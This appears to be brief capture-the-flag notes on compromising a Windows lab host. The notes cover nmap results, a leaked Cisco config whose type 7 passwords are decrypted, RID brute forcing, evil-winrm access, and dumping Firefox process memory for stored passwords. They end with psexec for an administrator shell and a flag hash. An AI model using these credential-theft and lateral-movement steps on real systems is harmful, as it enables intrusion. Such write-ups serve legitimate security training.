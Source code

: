 nmap:
```bash
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1m37s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-18T11:59:37
|_  start_date: N/A
```
windows server running php

Website login as guest and check attachment
```bash
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
 ```
 
 cisco router type 7 can be decrypted
 rout3r:$uperP@ssword
 admin:```Q4)sJu\Y8qz*A3?d```
 seceret: stealth1agent
 
 smb login with hazard:stealth1agent
 
 RID brute force with lookupsid.py for usernames
 ```bash
 rout3r
 admin
 hazard
 support
 chance
 jason
```
now brute force with new users

winrm login with chase and ```Q4)sJu\Y8qz*A3?d```

use evilwinrm to get shell
some dir magic on windows:
```powershell
gci -recurse . | select fullname
```

Can dump process with sysinternals procdump64 -ma of firefox processes and find password for website
get new password for admin with winrm
```
administrator:4dD!5}x/re8]FBuZ
```
use psexec.py and root shell

```a8345179a73e5c95a7d25de9c87cfd30```
